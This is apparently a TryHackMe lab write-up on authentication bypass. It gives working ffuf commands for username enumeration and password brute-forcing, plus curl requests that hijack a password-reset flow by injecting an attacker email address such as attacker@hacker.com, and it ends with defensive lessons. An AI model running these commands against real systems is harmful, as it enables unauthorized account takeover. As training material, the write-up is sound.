

**TryHackMe: Authentication Bypass — Technical Walkthrough**

**Overview**

This report documents the methodology and results of completing the
*Authentication Bypass* lab on TryHackMe. The exercise focuses on
identifying weak authentication mechanisms, enumerating valid usernames,
performing credential-stuffing attacks, and exploiting flawed
password-reset logic to gain unauthorized access.

The goal: demonstrate systematic offensive security methodology suitable
for a junior penetration tester or cybersecurity analyst role.

**1. Username Enumeration**

**Objective**

Determine which usernames already exist in the application by abusing
the signup page’s error messages.

**Method**

Navigated to the target application’s signup endpoint:

http://10.201.79.189/customers/signup

Submitting various usernames reveals a message indicating whether the
account already exists. This allowed automated enumeration using
**ffuf**.

**Command**

ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt \\

-X POST \\

-d "username=FUZZ&email=x&password=x&cpassword=x" \\

-H "Content-Type: application/x-www-form-urlencoded" \\

-u http://10.201.79.189/customers/signup \\

-mr "username already exists"

**Key parameters:**

- -w – wordlist containing candidate usernames

- -X POST – specifies the HTTP method

- -d – POST data; FUZZ marks insertion points

- -H – sets content-type for form submission

- -mr – match response text indicating a valid/registered username

**Result**

The scan successfully enumerated several valid user accounts, including
three additional usernames not visible from the front-end interface.

**2. Credential Bruteforcing with Valid Usernames**

**Objective**

Using the discovered usernames, perform a targeted password attack
against the login endpoint.

**Method**

A second ffuf operation was run using two wordlists:

- Known valid usernames

- Top 100 common passwords

**Command**

ffuf -w
valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2
\\

-X POST \\

-d "username=W1&password=W2" \\

-H "Content-Type: application/x-www-form-urlencoded" \\

-u http://10.201.79.189/customers/login \\

-fc 200

**Key parameters:**

- W1 and W2 define custom fuzz keywords for multi-wordlist attacks.

- -fc 200 filters out normal (failed) login responses by excluding HTTP
  200; any different status likely indicates successful authentication
  or a redirect.

**Result**

A valid credential pair was recovered:

- **Username:** steve

- **Password:** *(Recovered via attack)*

This confirmed weak password hygiene and lack of account lockout.

**3. Password Reset Token Exposure**

**Objective**

Investigate whether the password reset workflow leaks sensitive data or
can be manipulated.

**Method**

Issued a crafted password-reset request using **curl** to inspect
backend behavior:

**Command**

Curl
'http://10.201.79.189/customers/reset?email=robert%40acmeitsupport.thm'
\\

-H 'Content-Type: application/x-www-form-urlencoded' \\

-d 'username=robert'

**Result**

The server responded with verbose output revealing internal reset-token
data, confirming insufficient access control and input sanitization.

**4. Hijacking the Password Reset Mechanism**

**Objective**

Exploit the password-reset workflow to redirect reset tickets to an
attacker-controlled email address.

**Method**

A modified POST request injected an alternative email parameter,
effectively overwriting the legitimate recipient for password-reset
notifications.

**Command**

curl
'http://10.201.79.189/customers/reset?email=robert%40acmeitsupport.thm'
\\

-H 'Content-Type: application/x-www-form-urlencoded' \\

-d 'username=robert&email=attacker@hacker.com'

Next, an attacker account was created on the same system to receive the
redirected support ticket.

A follow-up reset request substituted the attacker’s mailbox:

curl
'http://10.201.79.189/customers/reset?email=robert@acmeitsupport.thm' \\

-H 'Content-Type: application/x-www-form-urlencoded' \\

-d
'username=robert&email={new_account_email}@customer.acmeitsupport.thm'

**Result**

The attacker-controlled account received a support ticket containing a
full password-reset link.  
Example:

http://10.201.79.189/customers/reset/11c0ee3c666531226637140f56a8d8d2

Using this link, the attacker can reset the victim’s password and gain
direct access to the account.

**Conclusion**

This TryHackMe lab demonstrated a complete compromise of an
authentication system through:

1.  **Username enumeration** via predictable error messages

2.  **Credential bruteforcing** without lockout

3.  **Information disclosure** in password-reset responses

4.  **Reset-token hijacking** enabling full account takeover

These vulnerabilities illustrate the importance of:

- Uniform error messaging

- Strong password policies

- Rate limiting and account lockouts

- Secure password-reset workflows

- Proper server-side validation

This exercise reinforces key penetration-testing skills relevant to
real-world web-application security assessments.

